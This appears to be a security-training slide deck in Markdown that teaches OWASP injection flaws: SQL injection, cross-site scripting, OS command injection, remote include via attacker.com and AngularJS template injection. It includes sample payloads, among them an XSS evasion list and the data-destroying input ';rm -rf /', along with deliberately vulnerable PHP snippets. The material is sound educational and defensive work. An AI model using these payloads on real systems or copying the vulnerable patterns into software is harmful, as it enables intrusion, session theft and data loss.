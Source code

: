 # Injection - Improper input validation

- Inputs: data, or metadata
- Technical validation
- Business validation
- Exploitation
- Use tools for parsing/validation
<!-- .element: class="list-fragment" -->

Notes:
- metadata: file size, encoding...
- Validation: data type, expected length, meaning => limitations!
- business validation example: Webshop order - negative quantity
- exploitation: directly, or when input is reused (eg injection in firstname/lastname).
- use tools => the right one for the right case!



##==##

# Injection - SQL Injection

- Simple example
  - SELECT * FROM users WHERE login = '$login' AND password = '$hashedPassword'
  - $login = admin'; --
  - SELECT * FROM users WHERE login = 'admin'; <span style="color:#bbb">--' AND password = ''</span>
- Exploitation
<!-- .element: class="list-fragment" -->

Notes:
- exploitation: read data from other users, update/delete data, access database username, shell command execution (MS SQL)...



##==##

# Injection - SQL Injection

![](./assets/images/200-owasp-top-10/sql-injection-licence-plate.png)



##==##

# Injection - Cross-site scripting (XSS)

- Rendering of untrusted HTML data
- Reflected vs Stored
<!-- .element: class="list-fragment" -->
  - `https://example.com/results.php?confirmMessage=<script>alert('hello');</script>`
- Examples of included scripts:
<!-- .element: class="list-fragment" -->
    - `<script>alert('xss');</script>`
    - `<a href="javascript:alert('xss')">Hello</a>`
    - `<image onload="javascript:alert('xss')">Hello</a>`
    - `<scriscriptpt>alert(1)</scscriptript>`
    - `<LINK REL="stylesheet" HREF="javascript:alert('XSS');">`
    - `<DIV STYLE="background-image: url(javascript:alert('XSS'))">`
    - ... (and many [other examples](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html) )
<!-- .element: class="list-fragment" -->

Notes:
- untrusted data => rendered directly or later, by a victim
- reflected = non-persistent
- countermeasure:
  - CSP header (content security policy) - can block allinline scripts
  - web application firewall - can detect xss attempts


##==##

# Injection - Cross-site scripting (XSS)

- XSS: many impacts!

Notes:
- steal cookies (steal session)
- trick the user to type his password
- perform actions in the name of the user
- retrieve user's personal data



##==##

# Injection - OS Command injection

```
<?php
system('ls -al /home/' . $username);
```

- username: &nbsp;&nbsp;&nbsp;`;rm -rf /`
- Final command: &nbsp;&nbsp;&nbsp;`ls -al /home/;rm -rf /`
<!-- .element: class="list-fragment" -->



##==##

# Injection - Server-side Include

``` php [1,2|3]
<?php
$dir = $_GET['module_name'];
include($dir . "/function.php");
```

- page.php?module_name=http://attacker.com
<!-- .element: class="list-fragment" -->



##==##

# Injection - Template Injection

- CSTI - Client Side Template Injection
- PHP + AngularJS project: GET /homepage
<!-- .element: class="list-fragment" -->

```
<?php
...
echo '<script src="angularjs.js"></script>';
...
echo "<div>Welcome " . $_GET["someParam"] . " !</div>";
...
```
<!-- .element: class="fragment" -->

- Value of someParam: AngularJS template expression!
<!-- .element: class="list-fragment" -->
  - `{{7*7}}`
  - `{{constructor.constructor('alert(1)')()}}`
<!-- .element: class="list-fragment" -->

Notes:
- this example: reflected. But can also be persistent.
